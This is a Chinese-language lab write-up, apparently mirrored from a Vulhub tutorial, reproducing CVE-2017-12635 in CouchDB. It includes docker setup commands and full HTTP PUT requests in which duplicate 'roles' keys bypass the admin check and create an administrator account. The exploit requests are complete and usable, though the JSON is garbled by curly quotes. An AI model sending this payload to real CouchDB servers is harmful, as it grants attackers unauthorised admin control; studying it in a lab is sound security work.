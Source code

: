 # （CVE-2017-12635）Couchdb 垂直权限绕过漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2856](https://www.zhihuifly.com/t/topic/2856)

# （CVE-2017-12635）Couchdb 垂直权限绕过漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

```
docker-compose build
docker-compose up -d 
```

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“password”: “vulhub”

}` 
```

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![image](img/544978315043e465623a152a9f9c80dd.png)

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“roles”: [],

“password”: “vulhub”

}` 
```

成功创建管理员，账户密码均为`vulhub`：

![image](img/f0aa4848a7311e290d7974a09a818c80.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image](img/ef6de98482ce4e71c86abc6b94fc1100.png)

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12635/